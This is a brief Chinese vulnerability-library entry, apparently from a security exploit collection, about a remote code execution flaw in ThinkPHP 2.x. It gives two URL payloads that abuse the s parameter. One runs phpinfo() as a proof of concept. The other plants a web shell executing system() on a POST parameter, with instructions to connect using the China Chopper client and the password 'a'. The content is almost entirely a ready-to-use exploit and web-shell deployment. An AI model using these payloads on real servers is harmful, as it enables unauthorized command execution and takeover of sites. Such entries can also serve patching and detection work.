 ```yaml
---
title: 'Thinkphp 2.X RCE漏洞'
date: Wed, 26 Aug 2020 03:54:30 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

Thinkphp 2.X

### 漏洞POC

```
/index.php?s=/index/index/xxx/${@phpinfo()}
```

![](https://www.bylibrary.cn/wp-content/uploads/2020/08/GOVEV6Z1@EEJXNFNCB.png)

```
/index.php?s=/index/index/xxx/${@print(system($_POST[a]))}
```

菜刀连接,密码为a。